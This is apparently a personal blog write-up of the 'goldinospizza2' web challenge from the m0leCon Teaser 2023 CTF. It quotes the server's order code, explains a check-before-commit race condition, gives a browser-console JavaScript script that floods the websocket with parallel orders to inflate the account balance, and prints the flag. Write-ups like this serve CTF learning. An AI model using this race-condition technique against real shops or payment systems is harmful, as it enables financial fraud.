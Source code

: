 ```yaml
---
layout: post
title: m0leCon Teaser 2023 Writeup
tags: [ctf, ctf writeup]
---
```


[m0leCon Teaser 2023](https://ctf.m0lecon.it/)  
[On CTFtime](https://ctftime.org/event/1898)

Overall good CTF with challenging original fun challenges.

On this page:

- [goldinospizza2](#goldinospizza2) - Web, websocket API, exploit race condition

## goldinospizza2

The challenge was released at about 2:40 AM BST as the "[~~patched~~ *improved* version of `goldinospizza`](https://discord.com/channels/1100159162794655904/1100159163096633447/1106757967291879506)", which was about over 8 hours into the CTF. It was just before I was planning to go to bed, but the challenge looked solvable😅.

The challenge was a web challenge with a website that allowed you to order pizza with a registered account. Most of the pizzas' prices were ranging between 6 and 15, but there was one pizza named "The flagship of pizzas" that costs 1,000,000. The flag will be shown if this pizza is successfully ordered. The initial account balance is 30.

Looking through the code, there are two websocket API functions that are interesting, one is `order`, and another one is `cancel`. The `order` function is used to order a pizza, and the `cancel` function is used to cancel an order and get refund.

The `order` function is implemented as follows:

```python
def order(data, ws, n):
    # Some checks on input omitted
    for item in data["orders"]:
        # Some checks on input omitted
        if type(item["quantity"]) is not int:
            db.session.rollback()
            raise AssertionError("ONE OF YOUR 🍕 'quantity' IS NOT INT")
        if item["quantity"] <= 0:
            db.session.rollback()
            raise AssertionError("ONE OF YOUR 🍕 'quantity' IS NOT VALID")
        product = db.session.execute(db.select(Product).filter(
            Product.id == item["product"])).scalars().one_or_none()
        if product is None:
            db.session.rollback()
            raise AssertionError("WE DON'T SELL THAT 🍕")
        quantity = item["quantity"]
        current_user.balance -= product.price * quantity
        if current_user.balance < 0:
            db.session.rollback()
            raise AssertionError("NO 🍕 STEALING ALLOWED!")
        db.session.add(Order(
            user_id=current_user.id,
            product_id=product.id,
            product_quantity=quantity,
            product_price=product.price
        ))
        if product.id == 0 and quantity > 0:
            ws.send(
                f"WOW you are SO rich! Here's a little extra with your golden special 🍕: {os.environ['FLAG']}")
    db.session.add(current_user)
    db.session.commit()
    return len(data["orders"]), {"ok": True, "balance": current_user.balance, "orders": _orders()}
```

In the code, I identified that there is a race condition that can be exploited to make total order larger than we have in the balance, and cancel the order to refund so we can have more balanced than we started with.

We can blast with multiple websocket requests to make order, and if the previous order has not been committed to the database, the next request is still checked against the old balance.

To make programming easier, I did scripting within the browser console within the context of the website. After some initial test, my balance increased to 66.00 from the initial 30.00.

![Balance increased to 66.00](/assets/image/m0lecon-teaser-2023-writeup/pizza-balance.png)

The script I used to blast the order is as follows:

```javascript
let message = {
    "request": "order",
    "orders": [{
        "product": 19,
        "quantity": 9792,
    }, ],
}
for (let i = 1; i < 20; i++) {
    const ws = new WebSocket(`wss://goldinospizza2.challs.m0lecon.it/sock`);
    ws.addEventListener("open", (event) => {
        ws.send(JSON.stringify(message))
    })
}
```

The connection will get killed after some numbers of requests. To scale this up, when I repeated the process, I increased the quantity of each of the order to the amount that I can afford with the balance. Then my available balance increased increases exponentially.

With enough balance, order the golden "The flagship of pizzas", get the flag and submitted at 4:00 AM BST. Enjoy the 🍕:

```
ptm{https://youtu.be/Uzryuem5NDc lets make pizza greater than zero again https://www.giallozafferano.com/recipes/Pizza-Margherita.html}
```
